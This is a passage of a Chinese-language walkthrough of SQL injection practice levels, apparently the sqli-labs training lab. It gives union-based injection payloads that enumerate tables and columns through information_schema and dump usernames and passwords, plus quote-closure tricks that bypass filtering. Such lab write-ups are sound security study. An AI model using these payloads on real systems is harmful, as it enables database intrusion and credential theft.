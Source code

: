 全部的数据库

![image](https://user-images.githubusercontent.com/76896357/115099205-f3299000-9f66-11eb-8a88-cbce1f8c2225.png)

* 查表

```
?id=' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or '1'= '
```

![image](https://user-images.githubusercontent.com/76896357/115099249-51ef0980-9f67-11eb-99da-5b74bcff9ab5.png)

* 查列

```
?id=' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' or '1'= '
```

![image](https://user-images.githubusercontent.com/76896357/115099310-b4e0a080-9f67-11eb-887f-ba54aa6ffb57.png)

* 查字段

```
?id='union select 1,group_concat(username),group_concat(password) from security.users where 1 or '1'= '//把句子结构补全不然不让过
```

![image](https://user-images.githubusercontent.com/76896357/115099371-0557fe00-9f68-11eb-8652-629a221ff6c8.png)

过。。。。

## 24. 出了点问题先跳过

## 25. AND和or被绕过

* 看一下闭合方式



显然是‘闭合

* 看下有没有回显
```
?id=-1' union select 1,2,3 --+
```

![image](https://user-images.githubusercontent.com/76896357/115099670-fe31ef80-9f69-11eb-8863-c204037a3fa8.png)

还是有回显的

* 查库

```
?id=-1' union select 1,2,database() --+
```
